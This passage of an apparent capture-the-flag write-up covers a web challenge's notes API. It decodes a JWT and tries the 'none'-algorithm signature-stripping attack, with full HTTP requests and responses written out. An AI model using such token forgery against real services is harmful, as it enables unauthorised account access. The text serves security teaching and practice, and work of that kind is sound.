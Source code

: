 ![](/home/user/work/shared/flags/HTS-702-2018-CTF/web-challenge/documentation.png) 

The documentation is very verbose, but reading through it we can get several key important points:

* Authentication is done with what is described as JWT, standing for JSON Web Tokens.
* There is a version header, which is required, but only one version exists so far.
* Notes are referred to by their unique key. Once a Key is destroyed, there is no way of accessing the note anymore.
* There are four endpoints: to read a note by key, create notes, get notes metadata and "reset".

Let's make, for example, a call to `getNotesMetadata`, and observe the response:

```
GET /rpc.php?method=getNotesMetadata HTTP/1.1
Host: 159.203.178.9
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6Mn0.t4M7We66pxjMgRNGg1RvOmWT6rLtA8ZwJeNP-S8pVak
Accept: application/notes.api.v1+json

HTTP/1.1 200 OK
Date: Wed, 27 Jun 2018 23:45:42 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 23
Content-Type: application/json

{"count":0,"epochs":[]}
```

We can see there are no notes for the current account by default. This means that whoever we are authenticated as, does not own the note where the flag is hidden. That authorisation header must somehow contain our user account. Now, JWT are a standard method of authentication. We can, for example, take that token and paste it on a webpage online that could decode the values, or we can do so manually. The format for JWT is roughly:

```
first_part.second_part.third_part
```

That is, three base64-URL encoded strings separated by a dot. The first part contains information pertaining to how the token is signed, and the second part contains authentication information. Let's have a look at the first two parts in the token shown in the documentation:

```
{"typ":"JWT","alg":"HS256"}
{"id":2}
```

There are several common attacks against JWT, the simplest of all being the removal of the signature component by using the `none` signing algorithm. Let's change the first part of the JWT to `{"typ":"JWT","alg":"none"}` and see if it works:

```
GET /rpc.php?method=getNotesMetadata HTTP/1.1
Host: 159.203.178.9
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpZCI6Mn0.t4M7We66pxjMgRNGg1RvOmWT6rLtA8ZwJeNP-S8pVak
Accept: application/notes.api.v1+json

HTTP/1.1 200 OK
Date: Wed, 27 Jun 2018 23:52:03 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 23
Content-Type: application/json

{"count":0,"epochs":[]}
```
